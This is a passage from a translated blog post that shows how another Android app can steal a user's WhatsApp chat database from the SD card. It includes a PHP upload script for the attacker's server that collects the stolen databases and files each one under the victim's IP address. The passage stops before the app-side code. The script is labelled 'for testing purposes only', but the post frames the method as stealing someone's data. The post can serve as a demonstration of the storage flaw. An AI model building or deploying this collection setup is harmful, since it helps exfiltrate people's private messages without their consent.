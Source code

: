 ```yaml
---
author: viviworld
comments: true
date: 2014-03-13 00:06:23+00:00
layout: post
link: http://www.labazhou.net/2014/03/steal-whatsapp-database/
slug: steal-whatsapp-database
title: 偷取WhatsApp的数据库
wordpress_id: 422
categories:
- 编程
tags:
- android
- Eclipse
- facebook
- Flappy Bird
- SQLite
- WhatsApp
---
```


<blockquote>“从另一个Android应用程序上传并读取WhatsApp聊天记录是可能的吗？”</blockquote>


[我兄弟](https://twitter.com/thiceNL)和我就这个问题开始了一次有趣的对话，最终经过了验证。长话短说，答案是：“是的，那有可能。”

[WhatsApp](http://www.whatsapp.com/)数据库保存在SD卡，它能够被任何Android应用程序读取，只要用户允许它访问SD卡。既然大部分人允许Android设备的所有权限，这就不是多大的问题。

那么我们怎么做才能偷取某人的WhatsApp数据库呢？首先我们需要存储数据库的地方。我使用只有一个简单php脚本的[web服务器](http://bas.bosschert.nl/)。

    
    
    <?php
    // Upload script to upload Whatsapp database
    // This script is for testing purposes only.
    
    $uploaddir = "/tmp/whatsapp/";
    
    if ($_FILES["file"]["error"] > 0)
      {
      echo "Error: " . $_FILES["file"]["error"] . "<br>";
      }
    else
      {
      echo "Upload: " . $_FILES["file"]["name"] . "<br>";
      echo "Type: " . $_FILES["file"]["type"] . "<br>";
      echo "Size: " . ($_FILES["file"]["size"] / 1024) . " kB<br>";
      echo "Stored in: " . $_FILES["file"]["tmp_name"];
    
      $uploadfile = $uploaddir . $_SERVER['REMOTE_ADDR'] . "." . basename($_FILES['file']['name']);
      move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile);
      }
    ?>
    